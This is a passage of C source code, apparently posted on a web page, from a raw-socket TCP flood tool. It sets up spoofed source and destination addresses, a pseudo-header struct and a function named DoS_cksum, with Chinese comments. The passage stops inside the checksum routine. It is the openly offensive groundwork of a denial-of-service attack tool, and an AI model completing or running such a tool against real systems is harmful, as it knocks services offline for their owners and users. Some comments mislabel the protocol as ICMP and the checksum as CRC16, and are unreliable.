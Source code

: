 {% highlight c %}
#include <stdio.h>
#include <ctype.h>
#include <unistd.h>
#include <fcntl.h>
#include <signal.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <errno.h>
#include <stdlib.h>
#include <time.h> 
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include <string.h>

/* 最多线程数 */
#define MAXCHILD 2
/* 目的IP地址 */
static in_addr_t dest = 0;
static in_addr_t sour = 0;
static unsigned short dest_port = 0;
/* ICMP协议的值 */
static int PROTO_TCP = -1;
/* 程序活动标志 */
static alive = -1;

static int rawsock = -1;

typedef unsigned short u16;

/* 随机函数产生函数
*  由于系统的函数为伪随机函数
*	其与初始化有关，因此每次用不同值进行初始化
*/
static inline long 
	myrandom (int begin, int end)
{
	int gap = end - begin +1;
	int ret = 0;

	/* 用系统时间初始化 */
	srand((unsigned)time(0));
	/* 产生一个介于begin和end之间的值 */
	ret = random()%gap + begin;
	return ret;
}

struct pseudo_header    //needed for checksum calculation
{
    unsigned int source_address;//源地址
    unsigned int dest_address;//目的地址
    unsigned char placeholder;
    unsigned char protocol;//协议号
    unsigned short tcp_length;//tcp包长度

    struct tcphdr tcp;//tcp首部
};//一起计算校验和

/* CRC16校验 */
static unsigned short
	DoS_cksum (unsigned short *data, int length)     
{  
	register int left = length;  
	register unsigned short *word = data;  
	register int sum = 0;  